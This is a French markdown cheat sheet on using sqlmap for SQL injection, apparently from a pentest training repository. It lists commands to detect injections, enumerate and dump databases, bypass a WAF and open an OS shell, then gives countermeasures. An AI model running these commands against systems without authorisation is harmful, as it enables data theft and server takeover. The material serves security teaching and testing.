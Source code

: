 # 10. `docs/Couche5_7_Application/cheat-couche5-7.md`

```markdown
# Couche 5-7 (Application) – Sqlmap

**Attaque ciblée** : Injection SQL

---

## Sommaire

1. [Introduction](#introduction)
2. [Installation & Pré-requis](#installation--pré-requis)
3. [Commandes Clés](#commandes-clés)
4. [Fonctionnalités Avancées](#fonctionnalités-avancées)
5. [Contre-mesures](#contre-mesures)
6. [Références & Ressources](#références--ressources)

---

## Introduction

**Sqlmap** est un outil d’automatisation pour détecter et exploiter des vulnérabilités SQL. Il prend en charge :
- Divers SGBD (MySQL, PostgreSQL, MSSQL, Oracle…).  
- Des mécanismes de contournement de WAF.  
- L’exfiltration de données, la prise de contrôle système, etc.

---

## Installation & Pré-requis

1. **Python** : Sqlmap est un script Python.
2. **Cloner le repo** :
   ```bash
   git clone https://github.com/sqlmapproject/sqlmap.git
   cd sqlmap
   ```
   Puis exécuter `python sqlmap.py` ou utiliser le binaire `sqlmap` si installé via un package manager.

---

## Commandes Clés

### 1) Détection d’une injection SQL
```bash
sqlmap -u "http://site.com/page?id=1" --batch
```
- `--batch` : exécute automatiquement les choix par défaut.

### 2) Extraire les bases de données
```bash
sqlmap -u "http://site.com/page?id=1" --dbs
```

### 3) Extraire une table spécifique
```bash
sqlmap -u "http://site.com/page?id=1" -D nom_de_base -T nom_de_table --dump
```

### 4) Bypass WAF (exemple)
```bash
sqlmap -u "http://site.com/page?id=1" --tamper=space2comment
```

---

## Fonctionnalités Avancées

- `--os-shell` : Ouvre un shell système si la base le permet (XP_CMDSHELL sur MSSQL, etc.).  
- `--sql-shell` : Ouvre un shell SQL interactif.  
- `--dump-all` : Tente de dumper l’intégralité de la base de données.  
- `--technique=` : Spécifie quelles techniques d’injection tester (UNION, BOOLEAN, etc.).

---

## Contre-mesures

- **Validation des entrées** (paramètres GET/POST, etc.).  
- **Utilisation de requêtes préparées** (PDO, etc.) pour éviter l’interprétation directe.  
- **WAF** : Filtrage des patterns courants d’injection.  
- **Moindre privilège** : Les comptes DB ne devraient pas avoir plus de droits que nécessaire.

---

## Références & Ressources

- [Site Officiel SQLmap](https://sqlmap.org/)  
- [GitHub SQLmap](https://github.com/sqlmapproject/sqlmap)  
- [OWASP Top 10 (Injection)](https://owasp.org/www-project-top-ten/)